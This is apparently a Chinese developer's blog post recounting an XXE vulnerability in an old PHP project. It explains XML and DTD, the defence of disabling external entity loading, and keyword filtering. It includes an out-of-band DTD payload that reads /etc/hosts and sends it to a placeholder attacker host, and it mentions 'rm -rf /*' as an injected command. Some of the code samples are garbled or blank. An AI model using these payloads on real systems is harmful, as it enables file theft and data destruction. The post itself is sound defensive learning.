

最近很忙，没有停下来脚步思考一些事情，没有整理遇到过的问题，没有停下来脚步听听内心的声音。
XXE 漏洞
某天安平的同事扫出来了我们以前很老旧的某个PHP项目有XXE漏洞，对于XXE之前没有碰到过这种漏洞，通过漏洞单的大概描述，了解了大概是跟XML以及DTD有关系。
XXE称为XML实体注入(XML External Entity)，他出现在我们的XML文件内，当允许引用外部实体时，通过构造恶意实体内容，从而可能导致如：
1、读取任意文件（read file）
2、内网端口探测（scan port）
3、服务端请求伪造 （SSRF）
4、执行系统命令 （exec command）
了解XXE需要先大致的了解下XML以及DTD。
什么是XML
XML是一种是一种类似HTML的可扩展标记语言，它的标记都是自定义的，其设计宗旨是包含和传输数据。和HTML不一样，他的核心设计是包含和传输数据，类似于json。而HTML偏向于展示内容和数据。在Android应用编写和微信公众号里之前经常会用到。举例为：1
2
3
4
5
6
7xml version="1.0" encoding="UTF-8"
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend!</body>
</note>
什么是DTD
DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。
DTD包括两种类型：内部的 DOCTYPE 声明以及外部文档声明。
内部的 DOCTYPE 声明
内部的声明被包含在您的 XML 源文件中，它应当通过下面的语法包装在一个 DOCTYPE 声明中：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18//规范
// 举例
xml version="1.0"
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend</body>
</note>
解释为：!DOCTYPE note (第二行)定义此文档是 note 类型的文档。!ELEMENT note (第三行)定义 note 元素有四个元素：”to、from、heading,、body”!ELEMENT to (第四行)定义 to 元素为 “#PCDATA” 类型!ELEMENT from (第五行)定义 from 元素为 “#PCDATA” 类型!ELEMENT heading (第六行)定义 heading 元素为 “#PCDATA” 类型!ELEMENT body (第七行)定义 body 元素为 “#PCDATA” 类型
外部文档声明
假如 DTD 位于 XML 源文件的外部，那么XML通过这种方式引用的，就叫做外部文档声明。那么它应通过下面的语法被封装在一个 DOCTYPE 定义中：
1 | // 规范 |
包含 DTD 的 “note.dtd” 文件可能为：1
2
3
4
5<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
上面的这个文件可能是个系统路径，实际上他还可能是个http文件地址。比如：1
xml version="1.0" encoding="UTF-8" standalone="yes"
DTD的好处就是比较好的能够描述自身格式的描述、可以使用某个统一的标准来定义格式。
XXE漏洞的原理及案例
了解了XML以及DDT,再来了解XXE就比较清楚了。XXE出现于上面两种方式中的：外部文档声明的情况。XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。
比如本次我遇到的漏洞就是通过向我们的那个老旧的php文件post以下内容后，就可以得到/etc/hosts内的内容了。1
2
3
4xml version="1.0" encoding="UTF-8" standalone="yes"
evil.dtd里面的内容可能是:1
<!ENTITY % bbb SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/hosts"><!ENTITY % ccc "<!ENTITY % ddd SYSTEM 'http://xxx.ip/b?%bbb;'>">
类似的，可以把evil.dtd里的文件内容变成etc/passwd。这个是非常危险的操作。
最后我使用的解决方法比较简单，在php内禁用实体的外部引用即可。如：1
libxml_disable_entity_loader(true);
扩展案例
以上我遇到的案例是XXE的风险之一-读取文件漏洞，除了这以外，在学习这个过称中我还看到了有其他的案例也会造成多样的漏洞问题，这里总结如下：（特别说明下：以下案例非真实经历，如果图片涉及到了侵权，麻烦联系我及时删掉）。
文件读取漏洞
如显示的展示漏洞，比如读到了xml信息后,直接print出来。显示的打印出来了xml信息。里面就有引用实体的内容。
数据即使不回显也可能会有问题，因为可以想办法触发漏洞以后把文件发送到攻击者的网站。如上我自己遇到的案例就是这种情况。
dtd文件为：
这样触发了工具后，就把漏洞发送到攻击者的网站了。验证自己有没有解决这个问题，就可以查看有没有给这个网站发送请求即可。
SSRF攻击

这个就比较好理解了，有一丢丢类似于前端的csrf。这里利用了文件可以引用外部实体的因素，利用服务器做中转去访问了第三方网站。
命令执行

如上是安装expect扩展的PHP环境里执行系统命令。感觉有一丢丢像我之前了解的命令行注入的影子。命令行注入是指：命令行注入漏洞，指的是攻击者能够通过 HTTP 请求直接侵入主机，执行攻击者预设的 shell 命令。
比如上面的这个如果传入的是git clone xxx && rm -rf /*，然后又刚好有root权限就完了。
端口探测
这个例子探测了192.168.1.1的80、81端口，通过返回的状态，比如“Connection refused”可以知道哪个是开的哪个是关掉的。另外还可以把IP换成域名，利用当前服务器DNS尝试解析内部域名来获取内网IP。
防御方法
目前有两种比较简单和有效的方法：
1、第一种是直接在代码中禁用外部的实体引用。如上实际案例中我就是通过这种方法解决的。
2、可以通过过滤关键词的方法，如把<!DOCTYPE、<!ENTITY、SYSTEM、PUBLIC过滤掉。但是这个要小心处理，有一定的风险。
总结
以上记录了我经历的之前的一次XXE漏洞，通过解决这个漏洞，去了解了类似的漏洞。比较感兴趣因此记录了下来。
最近被一些问题困扰，不是技术问题，会有很难受的时候，但是问题总会被解决，时间会证明一切。如果这个过称中你难受了，那就积极的去解决问题，正面面对他。